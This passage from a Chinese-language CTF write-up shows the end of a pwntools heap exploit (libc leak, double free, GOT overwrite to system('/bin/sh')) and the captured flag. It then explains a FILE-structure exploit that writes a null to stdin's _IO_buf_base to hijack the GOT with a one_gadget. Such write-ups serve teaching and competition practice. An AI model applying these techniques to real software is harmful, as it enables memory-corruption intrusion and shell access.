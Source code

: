 ```python
add_chant(0,0x50,pay)
add_chant(1,0x50,'asdasd')
add_chant(2,0x50,'asdasd')
add_chant(3,0x50,'1'*14)

spell(3)

cn.recvuntil('1'*14)

libc_base = u64(cn.recv(6)+'\x00\x00')-libc.symbols['free']
success('libc_base: '+hex(libc_base))
system = libc_base+libc.symbols['system']


add_chant(2,0x20,'bbbbbbbbbb')
dele(1)
dele(0)
dele(1)
dele(0)
dele(2)

#z('b*0x0000000000400981\nc')
pay = p64(0x602002-8)
add_chant(0,0x50,pay)
add_chant(1,0x50,'asdasd')
add_chant(2,0x50,'asdasd')
add_chant(3,0x50,'/bin/sh\x00'.ljust(14)+p64(system))


dele(3)

cn.interactive()
```

flag:`BAMBOOFOX{Hehehe...R3M3m6er_t0_s3T_Ni1_aFt3r_Fr3333333}`


### toddler-notakto 500

这题是FILE结构体的利用,还是比较有难度的.

首先程序有两个漏洞:
1.输入名字的时候有溢出,而且没有零截断,正好可以leak出ret地址,从而得到libc基地址.
2.下棋的时候,没有检查边界,由于他是在所下的位置写0来标记,所以有了一个任意地址写0的漏洞.

但是任意地址写零太局限了,很难利用,所以分两步完成.

目标是stdin的`_IO_buf_base`.
`buf_base`和`buf_end`决定了scanf的buf,对`buf_base`最低位写0从而将stdin的结构体包在buf内,从而能够改写stdin的多数结构体成员,再次改写`buf_base`和`buf_end`到got,从而got hijack,想接下来马上call的puts写onegadget即可getshell.(注意onegadget的局限,我选择rax==NULL的,只需让scanf返回0即可

详细的利用可以参考angelboy的silde.
[https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)
